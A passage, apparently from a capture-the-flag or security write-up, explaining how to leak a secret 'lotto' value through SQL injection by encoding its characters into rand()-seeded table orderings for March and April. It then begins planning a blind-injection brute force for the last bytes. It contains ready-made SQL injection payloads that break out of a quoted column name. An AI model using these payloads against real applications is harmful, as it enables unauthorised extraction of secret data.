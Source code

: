 Now moving to March, it is quite obvious that we get a lot of coverage by encoding 3 bytes (40320/46656) in there. That will have a success rate of 86.4% which is acceptable. Trying to encode another byte would through the success rate down to about 2.4% which is to low.

```sql
date` = 1,
rand(
    IF((ASCII(SUBSTR(@lotto,1,1))) > 0x39, (ASCII(SUBSTR(@lotto,1,1))-0x37), (ASCII(SUBSTR(@lotto,1,1))-0x30))+
    36*IF((ASCII(SUBSTR(@lotto,2,1))) > 0x39, (ASCII(SUBSTR(@lotto,2,1))-0x37), (ASCII(SUBSTR(@lotto,2,1))-0x30))+
    36*36*IF((ASCII(SUBSTR(@lotto,3,1))) > 0x39, (ASCII(SUBSTR(@lotto,3,1))-0x37), (ASCII(SUBSTR(@lotto,3,1))-0x30))
), --`date
```

Up to this point we can leak 6 bytes with about 57.6% success rate. We still need another 6 bytes though. 

The last table ordering we have is april. In this case we need to squeeze as much as possible as we are still half way through. If we choose to encode 3 bytes (362880/1679616) we get 100% success rate (again unless we have conflicts) but this seems like a big waste. Trying to encode 4 bytes (362880/1679616) would result in 21.6% success rate. This is the highest percentage observed for an extra byte.

```sql
date` = 1,
rand(
    IF((ASCII(SUBSTR(@lotto,4,1))) > 0x39, (ASCII(SUBSTR(@lotto,4,1))-0x37), (ASCII(SUBSTR(@lotto,4,1))-0x30))+
    36*IF((ASCII(SUBSTR(@lotto,5,1))) > 0x39, (ASCII(SUBSTR(@lotto,5,1))-0x37), (ASCII(SUBSTR(@lotto,5,1))-0x30))+
    36*36*IF((ASCII(SUBSTR(@lotto,6,1))) > 0x39, (ASCII(SUBSTR(@lotto,6,1))-0x37), (ASCII(SUBSTR(@lotto,6,1))-0x30))+
    36*36*36*IF((ASCII(SUBSTR(@lotto,7,1))) > 0x39, (ASCII(SUBSTR(@lotto,7,1))-0x37), (ASCII(SUBSTR(@lotto,7,1))-0x30))
), --`date
```

At this point we have encoded 10 bytes with a success rate of about 12.4%. That means that we should succeed guessing 10 out of 12 bytes round about once every eight tries or so.

This is of course not enough. This would require us to brute force two bytes which would reduce our hit rate to about 0.0096% which is absolutely unacceptable, especially considering the slow decoding of the numbers.


### Leak the last bytes

One option to leak the last two bytes would be to encode partial bytes in the orderings. For example break a byte into 6 bits and split those across the other encodings. This might work but requires quite some effort and we should keep in mind that the information that can be encoded in the orderings is less that what we need to encode. Of course, due to the reduced success rate, there is still space to encode but that gets complicated quickly.

So lets look at some other option which we already touched upon partly. We can use our blind SQL injection to brute-force the GET method until two bytes match some values we set. We could for example modify the June random function to look like this. 

